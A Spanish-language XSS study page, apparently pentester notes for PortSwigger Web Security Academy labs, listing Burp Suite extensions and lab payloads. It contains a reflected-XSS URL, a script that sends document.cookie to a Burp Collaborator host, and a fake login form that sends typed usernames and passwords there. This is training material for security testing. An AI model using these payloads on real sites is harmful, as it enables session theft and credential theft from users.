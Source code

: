 Como estamos aprovechando una vulnerabilidad XSS almacenada, al momento de ejecutarse o llamarse realizara una accion dentro de la cuenta del usuario (**Si se encuentra logueado**) sin su consentimiento.

## EXTENSIONES DE BURPSUITE PARA XSS

- [https://www.hackingarticles.in/burp-suite-for-pentester-xss-validator/](https://www.hackingarticles.in/burp-suite-for-pentester-xss-validator/)
- [https://portswigger.net/bappstore/98275a25394a417c9480f58740c1d981](https://portswigger.net/bappstore/98275a25394a417c9480f58740c1d981)

## PORTSWIGGER XSS

### REFLECTED XSS

**Reflected XSS into HTML context with nothing encoded**

Injeccion del xss en la url.

```javascript
https://ac8b1f691ebdc38080c22ae8003f00e7.web-security-academy.net/?search=%3Cscript%3Ealert(%27hola%20mundo!%27)%3C/script%3E
```

**Explotación de secuencias de comandos entre sitios para robar cookies**

Injeccion del xss para robar cookies. Podemos hacerlo con fetch():

```javascript
<script>
fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script> 
```

- [https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch)

- [https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/fetch](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/fetch)

**Exploiting cross-site scripting to capture passwords**

Robo de credenciales a traves de un XSS almacenado en el input comentario:

```javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
